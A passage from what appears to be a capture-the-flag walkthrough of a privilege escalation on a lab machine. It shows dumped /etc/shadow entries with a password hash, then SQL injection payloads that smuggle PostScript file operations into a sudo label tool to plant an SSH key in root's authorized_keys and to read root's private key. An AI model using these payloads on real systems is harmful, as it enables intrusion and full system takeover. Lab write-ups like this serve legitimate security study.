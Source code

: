     mysql:!:19387:0:99999:7:::
    fwupd-refresh:*:19479:0:99999:7:::
    _laurel:!:19480::::::
    james:$6$m07oa4vs5KUfYS/j$SjFJnikcpxhLK5wt3cOEE218N1Bfv4M3bQyhUspkepSBzefsAKCFpXbI.JS8N/p17IaYSgG0A217veas0iSC51:19513:0:99999:7:::


That's file read!

### Shell

#### Via Write

With the file write POC, I can simply update it to write my public SSH
key into root's `authorized_keys` file:



    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    > 
    > /outfile (/root/.ssh/authorized_keys) (w) file def
    > outfile (ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing) writestring
    > outfile closefile
    > 
    > (test", 2,3,4,5,6,7'
    Fetching order...
    Generating PostScript file...
    Generating PDF (until the printer gets fixed...)
    Documents available in /tmp/tmpp2ccw7ubprintgen



Then I can SSH in as root:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@bookworm.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
    ...[snip]...
    root@bookworm:~#



And read the flag:



    root@bookworm:~# cat root.txt
    aab5a8b7************************



#### Via Read

One way to get a shell via read is to read the SSH key of root. Each
user so far has has a `id_eh25519` file in their `.ssh` directory. I'll
try to read roots:



    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    >                                                                     
    > /inputfile (/root/.ssh/id_ed25519) (r) file def
    > inputfile 1000 string readstring
    >                                                            
    > pop                                 
    > inputfile closefile                 
    >                                                                     
    > /outfile (output.txt) (w) file def
    > outfile exch  writestring  
    > outfile closefile        
    >                                                                     
    > (test", 2,3,4,5,6,7'      